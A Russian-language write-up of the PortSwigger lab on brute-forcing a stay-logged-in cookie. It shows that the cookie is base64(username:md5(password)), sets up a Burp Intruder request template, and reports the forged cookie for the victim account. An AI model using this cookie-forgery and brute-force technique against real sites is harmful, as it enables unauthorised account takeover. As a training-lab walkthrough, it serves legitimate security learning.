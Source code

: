 ```yaml
---
title: "Brute-forcing a stay-logged-in cookie"
date: 2025-10-02
tags: [web, authentication, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/authentication-vulnerabilities/vulnerabilities-in-other-authentication-mechanisms/authentication/other-mechanisms/lab-brute-forcing-a-stay-logged-in-cookie"
classes: wide
---
```


В данной лабе есть функция `Stay logged`. Уязвимость в `cookie` позволит обойти механизм **аутентификации**. Нужно получить доступ к аккаунту `carlos`.Данные для входа: `wiener`:`peter`.

```
https://0a9a005b04645fe381485247005e002e.web-security-academy.net
```

## Solution

Залогинюсь, чтобы получить эту интересную печеньку.

Вот она: `stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw`. На первый взгляд похоже на `base64`. Попробую декодировать:

```
cu63:~/ $ echo "d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw" | base64 -d                                                                        
wiener:51dc30ddc473d43a6011e9ebba6ca770
```

Хмм, попробую подставить другое имя пользователя и зайти:

```
cu63:~/ $ echo "carlos:51dc30ddc473d43a6011e9ebba6ca770" | base64                                                                                       
Y2FybG9zOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcwCg==
```

Не получилось. Нужно подставить правильное значение после `:`.  Значение имеет длину 32. Похоже на длину хешей. Попробую посчитать популярные хеши от пароля `peter`:

```
sha1sum - bb7a1c32dfb1ae40be9560720747d7304ac5228a
md5 - 51dc30ddc473d43a6011e9ebba6ca770
```

Значит сайт использует следующую формулу:

```
base64(login + ':' + md5(password))
```

Соберу атаку в `Intruder`:

```http
GET /my-account HTTP/2
Host: 0a9a005b04645fe381485247005e002e.web-security-academy.net
Cookie: session=gsyx7QdOYc50472BFp6Qy8TiMP0pZEvp; stay-logged-in=§val§
```

Возьму предложенный список паролей от `Port Swigger` [туть](https://portswigger.net/web-security/authentication/auth-lab-passwords). А атаку настрою вот так:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Brute-forcing_a_stay-logged-in_cookie/1.png){: height="200" .align-center}

Начну атаку. В случае успешного токена должен вернуться ответ `200`:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Brute-forcing_a_stay-logged-in_cookie/2.png){: height="200" .align-center}

Подошел следующий токен:

```
Y2FybG9zOmFhNDdmODIxNWM2ZjMwYTBkY2RiMmEzNmE5ZjQxNjhl - base64("carlos:" + md5("daniel"))
```

Войду в аккаунт:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Brute-forcing_a_stay-logged-in_cookie/3.png){: height="200" .align-center}